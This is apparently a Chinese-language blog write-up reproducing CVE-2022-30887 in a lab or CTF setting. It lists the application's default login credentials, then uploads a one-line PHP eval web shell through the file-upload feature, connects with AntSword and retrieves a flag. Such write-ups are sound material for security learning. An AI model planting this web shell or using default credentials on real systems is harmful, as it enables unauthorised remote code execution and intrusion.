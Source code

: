 ```yaml
---
title: CVE-2022-30887
subtitle:
date: 2025-03-14T13:09:16+08:00
slug: 7a7f065
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/529b7081391a3f3103fe3aadd4560b8c.png)

查看发现默认账号密码是

```
账号：mayuri.infospace@gmail.com
密码：mayurik
```



![](images/875cb9aebbbf498cb4466a6802afa712.png)

成功登录

![](images/6b0a7c771f6457457c92a39151f715dd.png)



发现文件上传，尝试上传一句话木马

![](images/12b6132cdc59d3475f338ba7c8c84130.png)



``` Php
<?php @eval($_POST['t1ng']);?>
```



![](images/82e9dbe9d0db0c67356f3c67ab725201.png)

用蚁剑进行连接

![](images/3524f32c8d49aed457eadbbee07b5fce.png)

查看目录找到flag

![](images/c78b26e371e7355a9b35b0dbe678ec18.png)

